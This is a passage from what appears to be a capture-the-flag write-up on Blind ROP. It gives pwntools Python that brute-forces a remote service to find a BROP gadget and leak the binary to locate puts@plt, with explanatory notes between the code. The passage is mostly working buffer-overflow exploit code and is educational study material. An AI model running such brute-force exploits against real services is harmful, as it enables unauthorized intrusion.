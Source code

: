 ```python
    context.log_level = 'error'
    addr = stop_gadget
    while True:
        sleep(0.1)
        addr += 1

        payload = b'A' * buff_size + p64(addr) + p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6) + p64(stop_gadget)
        try:
            p = remote(HOST,PORT)
            p.recvline()
            p.send(payload)
            line = p.recv(30, timeout=2)
            if b"No password" in line:
                if check_Brop_Gadget(buff_size, addr):
                    #print('Brop Gadget : ' + hex(addr))
                    p.close()
                    return addr
                else:
                    raise EOFError
            else:
                raise EOFError
        except EOFError as e:
                p.close()
                #print("bad: 0x%x" % addr)
        except Exception as e:
            print(e)
            print('Can\'t Connect')
            addr -= 1
```

There can be some false positive. So refer to check\_Brop\_Gadget source code in [Final Exploit](#Final_Exploit)

```text
[+] Brop Gadget:- 0x4007ba
```
### Finding puts@plt

This is an optimization from my side since today every modern day binary have puts and printf which require us to just control 1 regiter that is rdi to print everything and as we know that plt section is somewhat very near to our main function we can use our stop Gadget here also and plt entries are a multiple of 0x10 so it will be quite optimized bruteforced by itself

We will be printing the starting of .text section i.e. 0x400000 which always starts with \x7fELF. Now let's Go
```python
def get_puts_addr(buff_size, stop_gadget, brop_Gadget):
    context.log_level = 'error'
    addr = stop_gadget - 512
    addr -= addr % 16 # Aligning the address
    pop_rdi = brop_Gadget + 9 # Getting pop rdi by misalignment
    junk = b'A' * buff_size

    while True:
        payload = junk + p64(pop_rdi) + p64(0x400000) + p64(addr)
        try:
            io = remote(HOST, PORT)
            io.recvline()
            io.sendline(payload)
            content = io.recv()
            if b'\x7fELF' in content:
                print(content)
                return addr
            else:
```